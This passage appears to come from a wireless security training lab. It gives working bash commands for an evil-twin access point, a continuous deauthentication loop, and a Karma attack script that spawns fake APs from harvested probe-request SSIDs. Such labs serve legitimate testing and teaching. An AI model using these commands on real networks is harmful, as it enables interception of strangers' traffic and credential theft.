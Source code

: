 ```bash
# Configure DHCP server
sudo dnsmasq -C /dev/null -kd -F 192.168.100.50,192.168.100.150,12h -i wlan1 --bind-dynamic &

# Set up iptables for internet access
sudo iptables -t nat -A POSTROUTING -s 192.168.100.0/24 -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
sudo iptables -A FORWARD -i eth0 -o wlan1 -m state --state RELATED,ESTABLISHED -j ACCEPT
```

**Deauthentication Attack**:
```bash
# Continuously deauth clients from legitimate AP
while true; do
    aireplay-ng -0 5 -a 00:11:22:33:44:55 wlan0mon
    sleep 10
done
```

**Credential Harvesting**:
```bash
# Monitor evil twin for associations
airodump-ng -c 6 --bssid [EVIL_TWIN_MAC] -w evil_twin_victims wlan0mon

# Capture handshakes from evil twin
# Clients will connect and provide credentials
```

### **Exercise 2.2: Karma Attack**

**Objective**: Exploit client probe requests to create automatic connections.

**Karma Attack Setup**:
```bash
# Collect probe requests
airodump-ng -w probe_requests --output-format csv wlan0mon

# Extract SSIDs from probe requests
grep -v "^BSSID" probe_requests-01.csv | cut -d',' -f14 | sort -u > ssid_list.txt

# Create multiple fake APs
while read ssid; do
    if [ ! -z "$ssid" ]; then
        cat > "karma_${ssid}.conf" << EOF
interface=wlan1
driver=nl80211
ssid=$ssid
hw_mode=g
channel=6
auth_algs=1
wpa=0
EOF
        sudo hostapd "karma_${ssid}.conf" &
        sleep 2
    fi
done < ssid_list.txt
```
